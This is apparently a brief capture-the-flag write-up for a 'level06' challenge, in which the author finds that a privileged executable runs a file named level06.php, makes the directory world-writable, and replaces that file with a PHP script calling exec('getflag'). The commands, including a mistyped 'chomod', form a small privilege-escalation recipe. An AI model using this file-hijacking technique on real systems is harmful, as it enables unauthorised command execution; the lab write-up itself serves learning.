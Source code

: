# We found 2 files:
- PHP file
- executable file

# We dumped the executable with:
hexdump ./level06 -C

# We noticed that he execute the file 'level06.php'

chomod 777 .

# We created a file name '/tmp/level06.php'
#===================================================
    #!/usr/bin/php

    <?php
        echo exec('getflag');
    ?>
#===================================================

mv /tmp/level06.php .
./level06 level06.php

# TADAAAAAAAAA
